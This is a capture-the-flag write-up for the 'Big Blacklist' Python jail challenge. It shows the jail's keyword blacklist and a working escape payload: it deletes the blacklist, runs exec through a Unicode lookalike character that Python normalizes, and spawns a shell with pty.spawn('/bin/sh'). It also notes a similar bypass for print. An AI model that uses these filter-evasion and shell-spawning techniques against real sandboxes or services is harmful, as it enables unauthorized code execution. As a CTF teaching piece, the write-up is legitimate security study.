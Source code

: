 <h1>Writeup for Big Blacklist:</h1>



Big Blacklist was a PyJail Challenge in which we were given a Netcat server and port , When we connect to it we Get the source code of the Jail and a Prompt.

Jail source Code :
```py
#!/usr/bin/env python3
blacklist = ["/","0","1","2","3","4","5","6","7","8","9","setattr","compile","globals","os","import","_","breakpoint","exit","lambda","eval","exec","read","print","open","'","=",'"',"x","builtins","clear"]
print("="*25)
print(open(__file__).read())
print("="*25)
print("Welcome to the jail!")
print("="*25)

for i in range(2):
        x = input('Enter command: ')
        for c in blacklist:
                if c in x:
                        print("Blacklisted word found! Exiting!")
                        exit(0)
        exec(x)
```
As we can see thats a big blacklist.

Solution:

To break the jail i used the following approach :

```
del blacklist;eₓec(input())
blacklist = []
import pty; pty.spawn("/bin/sh")
```

`del blacklist` : Delete's the blacklist.

`eₓec(input())` : Invokes an input so that i can re-assign an empty blacklist[] array , If i dont re-assign the array the for loop will break as the blacklist variable will not be there,
                  and as you can see the 'ₓ' in eₓec is not a standard x its a diffrent latin-unicode character but python interprets it as 'x' , This is too bypass the the blacklist of 'x' and 'exec'.
                  
`import pty;pty.spawn("/bin/sh")` : Now that the blacklist[] array is empty we can use a standard python one-liner shell command.

[Link to Unicode Character X](https://www.compart.com/en/unicode/U+2093)


Also you can bypass the `print` blacklist using the unicode ₚ

[Link to Unicode Character P](https://www.compart.com/en/unicode/U+209A)

This opens many opportunites for diffrent writeups as there might be many different unicode characters that could be used.
